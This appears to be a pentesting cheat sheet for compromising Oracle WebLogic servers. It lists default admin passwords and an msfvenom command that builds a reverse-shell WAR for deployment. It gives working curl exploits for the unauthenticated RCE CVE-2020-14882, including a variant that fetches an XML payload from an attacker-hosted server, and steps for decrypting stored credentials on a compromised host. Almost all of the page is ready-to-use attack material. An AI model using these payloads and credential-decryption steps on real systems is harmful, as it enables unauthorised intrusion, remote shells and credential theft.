

Default passwords
=================

| Version | Account | Default password |
|---------|---------|------------------|
| <= 10   | weblogic| weblogic         |
| >= 11   | weblogic| weblogic1 *or* Welcome1 *or* welcome1 |


RCE from admin account
======================
Generate a WAR file using msf.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1234 -f war > peace.war
```

Then deploy on the web interface. First enter the deployment menu, second lock the configuration for editing and then click install. This gives the option to upload a new RAR and install it on the server, triggering the payload:



Unauthenticated RCE CVE-2020-14882 (fall 2020)
==============================================
[Official Advisory](https://www.oracle.com/security-alerts/alert-cve-2020-14750.html)

Affected versions: 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0

There are loads of other RCEs spanning 2017-2020 but this one is so easy and powerful it kinda renders all the other exploits obsolete.

If Tangosol is present on the target (versions >=12 usually) then direct remote code execution is achieved:
```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/rce%27);")'
```

Otherwise an additional malicious webserver hosting a XML paylod is needed, but RCE is achieved nonetheless.

Hosted XML file ```wl.xml```:
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>touch</value>
            <value><![CDATA[/tmp/rce]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://xx.xx.xx.xx/wl.xml%22)'
```

Of course, the WebLogic server needs to have network visibility on the hosted payload.


Decrypting passwords
====================

Offline
-------
On the compromised host, recover these two files:

* ```SerializedSystemIni.dat```: this is the decryption key in binary format so you usually can't grab it using LFI...
* ```boot.properties```: contains encrypted user and password values

Decrypt using [this python script](https://gist.github.com/gquere/b331d9a8f0c0ffc8ac1fb44123aa8335).


Online
------
Grab the domain path from the ```wl-domains``` folder
```
wlst.sh
wls:/offline> domain = "..."
wls:/offline> service = weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain)
wls:/offline> enc = weblogic.security.internal.encryption.ClearOrEncryptedService(service)
wls:/offline> enc.decrypt('{AES}...')
```
